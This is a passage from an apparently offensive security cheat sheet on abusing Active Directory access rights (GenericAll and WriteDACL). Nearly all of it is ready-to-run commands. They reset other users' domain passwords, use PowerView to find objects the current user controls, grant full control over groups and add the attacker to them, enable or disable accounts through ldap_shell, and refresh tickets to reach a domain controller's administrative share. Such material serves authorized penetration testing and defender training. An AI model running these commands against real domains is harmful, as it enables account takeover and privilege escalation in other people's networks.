 The attacker can change password of discovered users:

```
Cmd > net user snovvcrash Passw0rd! /domain
```

Find domain groups that current user has `GenericAll` access right to:

```
PV3 > Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} ? {$_.ActiveDirectoryRights -like "*GenericAll*"}
```

The attacker can add users to discovered groups:

```
Cmd > net group "IT Desk" snovvcrash /add /domain
```

Enable/disable AD account remotely via [ldap_shell](https://github.com/PShlyundin/ldap_shell):

```
$ python3 -m ldap_shell -k -no-pass megacorp.local/snovvcrash -dc-ip 192.168.1.11 -dc-host DC01
snovvcrash# enable_account j.doe
snovvcrash# disable_account j.doe
```




## Abuse WriteDACL

Find domain groups that current user has `WriteDACL` access right to:

```
PV3 > Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} | ? {$_.ActiveDirectoryRights -like "*WriteDacl*"}
```

The attacker can take the full control of discovered groups and then add a users to them:

```
PV3 > Add-DomainObjectAcl -TargetIdentity "IT Desk" -PrincipalIdentity snovvcrash -Domain tricky.com -Rights All -Verbose
PV3 > Add-DomainGroupMember -Identity "IT Desk" -Members snovvcrash -Verbose
```

{% hint style="info" %}
Group membership will take its sweet time to be updated within target user's TGT. To [force](http://woshub.com/how-to-refresh-ad-groups-membership-without-user-logoff/) the update one may purge existing tickets and request new TGT:

```
Cmd > klist purge
Cmd > gpupdate /force
Cmd > dir \\dc1.megacorp.local\c$
```
{% endhint %}

